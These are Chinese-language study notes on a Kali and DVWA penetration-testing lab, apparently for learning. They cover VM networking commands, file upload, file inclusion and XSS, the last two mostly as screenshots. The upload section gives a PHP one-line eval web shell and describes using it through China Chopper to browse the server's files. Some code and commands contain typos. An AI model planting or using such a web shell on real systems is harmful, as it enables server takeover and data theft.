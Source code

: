 # 1. 环境

## 1.1 Kali账户:

username: kali

password: kali

## 1.2 联网方式：

* NAT

  <img src="imgs/image-20211212121724519.png" alt="image-20211212121724519" style="zoom:80%;" />

  里面有个虚拟交换机，kali路由到虚拟交换机，然后在经物理网卡到外部。kali的ip和win系统的ip不一样。

  在kali中：

  ````bash
  ip a   #可查看ip信息，类似ifconfig
  ````

  <img src="imgs/image-20211212122224021.png" alt="image-20211212122224021" style="zoom:80%;" />

  ```bash
  ip r   # 可列出路由表，该主机走的路由信息
  ```

  <img src="imgs/image-20211212122305739.png" alt="image-20211212122305739" style="zoom:80%;" />

  我们只能访问别人。

* 桥接

  桥接则没有了内部交换机，虚拟机中系统的ip和主机的ip一样,地位同等。

  ```bash
  dhclient -r eth0  # 释放网卡eth0的ip  -r:-release
  
  dhcient -v eth0  # 重新获取eth0网卡的ip
  ```

  我们可以访问别人，别人也可以访问我们。



# 2. 文件上传渗透与防御

DVWA:  username: admin , password: admin



<img src="imgs/image-20211212132607797.png" alt="image-20211212132607797" style="zoom:80%;" />

一句话木马：

shell.php

```php
<?hph @eval($_POST['chopper']);?>
```

文件上传

<img src="imgs/image-20211212135808097.png" alt="image-20211212135808097" style="zoom:80%;" />

复制地址：http://192.168.64.129/dvwa/hackable/uploads/shell.php  在中国菜刀中打开 密码为chopper

<img src="imgs/image-20211212135931076.png" alt="image-20211212135931076" style="zoom:80%;" />

右击文件管理：

<img src="imgs/image-20211212140014808.png" alt="image-20211212140014808" style="zoom:80%;" />

就可以浏览服务器整个文件：

<img src="imgs/image-20211212140048020.png" alt="image-20211212140048020" style="zoom:80%;" />

# 3. 文件包含渗透攻击与防御

本地文件包含LFI

远程文件包含RFI

<img src="imgs/image-20211212153023587.png" alt="image-20211212153023587" style="zoom:80%;" />

<img src="imgs/image-20211212153347410.png" alt="image-20211212153347410" style="zoom:80%;" />

<img src="imgs/image-20211212153623779.png" alt="image-20211212153623779" style="zoom:80%;" />

# 3. XSS跨站脚本攻击

Cross Site Script

攻击的是客户端

<img src="imgs/image-20211212164423556.png" alt="image-20211212164423556" style="zoom:80%;" />

<img src="imgs/image-20211212164724428.png" alt="image-20211212164724428" style="zoom:80%;" />

<img src="imgs/image-20211212170002489.png" alt="image-20211212170002489" style="zoom:80%;" />

<img src="imgs/image-20211212170623383.png" alt="image-20211212170623383" style="zoom:80%;" />

<img src="imgs/image-20211212170645594.png" alt="image-20211212170645594" style="zoom: 80%;" />

<img src="imgs/image-20211212170837540.png" alt="image-20211212170837540" style="zoom:80%;" />

<img src="imgs/image-20211212170856712.png" alt="image-20211212170856712" style="zoom:80%;" />

